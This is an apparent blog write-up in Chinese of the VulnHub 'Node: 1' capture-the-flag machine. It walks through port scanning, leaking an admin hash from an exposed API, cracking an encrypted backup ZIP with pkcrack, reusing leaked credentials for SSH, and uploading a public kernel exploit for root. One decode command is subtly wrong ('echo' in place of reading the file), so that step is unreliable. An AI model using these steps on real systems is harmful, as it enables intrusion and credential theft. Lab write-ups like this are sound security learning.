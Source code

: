 ```yaml
---
title: "VulnHub #Node:1"
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2018-10-31 16:38:17
categories:
  - Writeups
  - VulnHub
thumbnailImage: cover.png
keywords:
  - vulnhub
  - writeup
  - node
tags:
  - Writeups
---
```


Official website: [Node: 1 ~ VulnHub](https://www.vulnhub.com/entry/node-1,252/)

<!-- more -->

## info

```
Nmap scan report for 192.168.56.101
Host is up (0.00031s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
MAC Address: 08:00:27:A2:8A:95 (Oracle VirtualBox virtual NIC)
```

`22/tcp` SSH 服務目前沒有登錄資訊暫且擱置，`3000/tcp` 是一個網站，得從這裡著手。

## Login

把 Bur Suite 接起來以後觀察網站的封包，發現一些有意思的 API，且此網站為 `Node.js express` 框架，基本上只有一個登入的功能，推測應該要以管理員身份登入才能得到進一步的資訊。`/assets/js/app/` 裡有不少 JavaScript 的 code 也可以幫助你找到這些 API 路徑。

`/api/users/latest` 會回傳三個使用者的帳號及 SHA256 的密碼，Google 就可以找到 decrypt 的明文，不過一般使用者帳號並沒有用處，目標是取得 admin 的帳號並登入後台。

嘗試不同的 API 時發現`/api/users`會回傳所有的使用者資訊，於是得到具有管理權限的帳號 `myP14ceAdm1nAcc0uNT` 及 SHA256 的密碼 `dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af`，一樣直接 Google 明文後即可成功登入。

![panel](panel.png)

後台介面唯一的功能便是下載網站的備份檔，下載下來是個純文字檔，觀察一下即可發現是 base64 編碼，decode 以後再次確認檔案類型發現是個有密碼的 ZIP 壓縮檔。

```
$ file myplace.backup
myplace.backup: ASCII text, with very long lines, with no line terminators

$ echo myplace.backup | base64 --decode > decode

$ file decode
decode: Zip archive data, at least v1.0 to extract
```

## Decrypt Zip File

如果能夠解開這個壓縮檔，便可以進行 code review 去尋找其他潛在的漏洞。我使用 `pkcrack` 來還原加密的壓縮檔，只要我們能有一個同樣的檔案存在在壓縮檔內，便可以透過 `pkcrack` 去解密，於是我下載了 `home.html` 這個模板並壓縮成 `key.zip`，使用 `binwalk` 來確認 `home.html` 的路徑，便成功的還原出 `result.zip`，可以解壓縮進行更多的檢視了。

```
$ binwalk decode.zip | grep home.html
$ wget http://192.168.56.101:3000/partials/home.html
$ zip key.zip home.html
$ pkcrack -d result.zip -P key.zip -c  "var/www/myplace/static/partials/home.html" -C decode.zip -p home.html
```

## Code Review

Code review 會發現 mongoDB 的登錄資訊為 `mark:5AYRft73VtFpc84k`，嘗試登陸 SSH 成功，可是並未具有 root 權限，並發現第一個 flag 為 `/home/tom/user.txt`，必須設法提升權限。

## Local Privilege Escalation

看了一下目錄底下沒有其他檔案以後，決定將目標轉移到本地提權上。首先檢查 kernel 相關資訊並使用 `searchsploit` 來尋找相關的 payload。

![searchsploit](searchsploit.png)

```
$ uname -a
Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ searchsploit linux 4.4.0
// 發現 exploits/linux/local/44298.c 符合條件，可以試試
```

找到了可能可行的 payload 以後，我們已經有 SSH 的登錄資訊，可以使用 `scp` 來把檔案上傳至靶機內並編譯執行，即可成功取得 root 權限並且拿到兩把 flag。

```
$ scp /usr/share/exploitdb/exploits/linux/local/44298.c mark@192.168.56.101:/tmp/exploit.c
```

![exploit](exploit.png)
